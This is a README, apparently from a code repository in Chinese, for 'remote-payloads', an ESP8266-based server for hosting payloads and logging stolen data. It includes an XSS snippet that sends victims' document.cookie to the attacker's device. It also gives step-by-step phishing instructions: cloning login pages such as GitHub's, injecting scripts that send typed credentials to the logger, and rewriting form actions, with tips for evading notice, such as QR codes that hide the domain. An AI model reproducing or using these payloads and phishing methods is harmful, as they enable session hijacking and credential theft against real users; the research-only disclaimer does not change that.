



# remote-payloads

# ESP-01_FS_WEB

### esp8266闪存文件应用

[详见太极创客](www.taichi-maker.com/homepage/esp8266-nodemcu-iot/iot-c/spiffs/upload-files/)

### 使用的esp8266模块：

其他esp8266模块或开发板应该也行，只要有flash和WebServer库即可。


### /index.html页面：


### /upload.html页面：

上传的文件将被存储在“/payloads/”根目录下。


### /delete.html页面：

只需要输入文件名如“logs”即可删除“/payloads/”+文件名如“/payloads/logs”文件，文件名不能包含“..”！


### /list操作：

列出/payloads/根目录下的所有文件夹和文件。


### /logs操作：

参数（GET或POST）将会被追加在/payloads/logs文件中，用于反射型XSS漏洞获取Cookie等。

xss_reflect.js举例：

```js
//通过指定的名称'img'创建img元素
var img = document.createElement('img');
img.width = 0;
img.height = 0;

//将img元素的src属性指向脚本文件xss_reflect.php
//将cookie信息的字符串作为URI组件进行编码，然后用ck参数传递
img.src = 'http://192.168.1.103/logs?cookie='+encodeURIComponent(document.cookie);
//将192.168.1.103换成你esp8266服务器的地址
```

# ESP-01_FS_CLI

分为两个文件：

- ESP-01_FS_CLI.ino
- remote_payloads.py

其中remote_payloads_cli.ino在上传到esp8266之前，需要配置好用户名、密码、隐藏目录和wifi基本信息（当然，你也可以修改端口等信息，只要你清楚自己在做什么就行），如下


上传完成之后即可用remote_payload.py连接（可被重命名，记得赋予可执行权限）

```
usage: remote_payloads_cli.py [-h][-r <url:post>][-u <username>][-p <password>]
description:
    remotely connect to your esp8266 standby with a fake shell.
Command         Description                     Example
help            show helpful information        help
ls              list dir                        ls /payloads
up              upload local file to esp8266    up ~/Desktop/something.js /payloads/other.js
down            download file from esp8266      down /payloads/something.js ~/Desktop/other.js
cat             show content of a file          cat /payloads/logs
rm              remove file or dir              (file)rm /payloads/logs
                                                (dir)rm /payloads/
mv              move file or dir                (file)mv /payloads/logs /logs
                                                (dir)mv /upload/ /payloads/new/
wget            send a HTTP/HTTPS request and\  wget http://www.baidu.com/robots.txt [-o /tmp/baidu_robots.txt]
                save the payload to file\
                default path is '/'+fileName
clear           clear shell                     clear
exit            log off and exit                exit
```

示例：


也可以如下方式连接（password都是没有回显的）：


需要注意的几点：

- 该cli连接方式其实是HTTP连接（命令大部分是POST请求），但不用担心密码泄漏问题（数据和cookie会被中间人劫持，毕竟不是HTTPS协议），其中加密逻辑请各位大佬看看，如若不妥，还请大佬能够指出不当之处！
- 同一个esp8266只允许一个客户端接入（你也可以修改，但比较麻烦），即每次只有一个cookie有效，使用`exit`命令‘正常’结束会话后，cookie当即失效
- url格式为"http://[ip|domain]:port"，末尾**没有**"/"！若端口为80端口，则可忽略
- `rm /filePath/fileName`将删除filePath下fileName文件，而`rm /filePath/`将删除**整个filePath目录及目录下所有文件**！`rm /`则相当于清空内存
- 向`http://[ip|domain]:port/logs`发送的请求，将会被esp8266记录下来，默认追加在`/payloads/logs`文件，这可用于反射型XSS漏洞获取cookie
- 访问`http://[ip|domain]:port/list`，将会列出非隐藏目录下所有文件链接
- 使用wget命令发送HTTPS请求时需要sha1指纹。到浏览器开发者工具中“网络”选项中选中你想要GET的文件，右侧会弹出请求和响应的相关信息，其中“安全性”选项底部便有sha1指纹，仅复制其指纹即可



# NodeMCU_SD_CLI

与`ESP-01_FS_CLI`共用一套客户端，命令兼容，只是将闪存改为SD卡。

由于esp8266-01E模块引脚不足（或是不支持SPI协议？？），需要使用**模组**或**开发板**（如NodeMCU），图示为NodeMCU接线图。

```
*  接线：sd卡<---->NodeMCU
*       VCC----------Vin(5V驱动)
*       GND----------GND
*       MISO---------D6
*       MOSI---------D7
*       SCK----------D5
*       CS-----------D8
```


# Example

## 用remote-payloads钓鱼

### 剽窃式

1. 先在本地用curl或wget命令获取你想要伪造的页面，remote-payloads也支持wget命令，但获取的页面有长度限制，且不易编辑。

2. 在获取到的HTML文件中<head>标签下加入如下代码：

```html
<script>
window.onload = function() {
	function $(id) {
		return document.getElementById(id)
	}
	function getInput(inputId){
		$(inputId).onblur = function() {
			var img = document.createElement('img');
			img.width = 0;
			img.height = 0;
			img.src = 'http://192.168.1.100/logs?args='+$(inputId).name+': '+inputArea.value;
		}
	}
	getInput(userName);
	getInput(passwordInput); 
}
</script>

```

需要将代码中userName和passwordInput改为活添加为你想要获取的输入框Id，将http://192.168.1.100/换成你remote-paylaods的ip或域名

3. 让用户访问该页面，则用户在你关注的输入框中输入的内容将会被发送到你的remote-paylaods并被记录下来



缺点：	1.由于remote-paylaods是HTTP服务器，所以当伪造页面为HTTPS时，其输入框可能会提示“不安全连接”
	2.表单会正确发送至原服务器，但跳转资源可能会跳转到remote-payloads的域名下，而非原服务器域名下，导致出现空白页面
优点：	如果上述两个缺点条件都不成立，那么这将是一次“无痕”钓鱼【手动滑稽， 用户感受不到差别


### 跳转式

1. 先在本地用curl或wget命令获取你想要伪造的页面，remote-payloads也支持wget命令，但获取的页面有长度限制，且不易编辑。

2. 在获取到的HTML文件中将表单<form>的action改为你remote-payloads的ip或域名+logs，然后添加一个隐藏input元素，如下：

```html
<!--将https://github.com/login页面的<form action="https://github.com/login" accept-charset="UTF-8" method="post">改为如下内容-->
<form action="http://192.168.1.100/logs" accept-charset="UTF-8" method="post"><input type="hidden" name="toUrl" value="https://github.com/login" />
```

其中`name="toUrl"`是设定好了的，不能改换（除非你改源码）

3. 当用户点击提交表单时，表单将提交至remote-paylaods，然后remote-payloads将返回`<script>window.location.replace(\"" + toUrl + "\")</script>`，页面将立即**‘变成’**toUrl网址，且不能通过返回操作至/logs页面



缺点：	表单内容传给了remote-payloads，但没有传给原服务器，所以不能一次性通过身份验证，用户相当于需再次输入（不管之前是否输入正确）
优点：	基本不会出现剽窃式缺点中的两种情况


### 提示

- 可以将两种方法结合起来，原则就是让用户察觉不到变化（太阴了bushi

- 可以将链接转为二维码（(草料二维码)[https://cli.im]），用户一般只能用手机扫码，而手机是不会显示域名的（有点过了。。。


# 免责声明

**本仓库提供的内容可能带有攻击性，仅供研究学习使用，用户将其信息做其他用途，由用户承担全部法律及连带责任，本人不承担任何法律及连带责任。 **


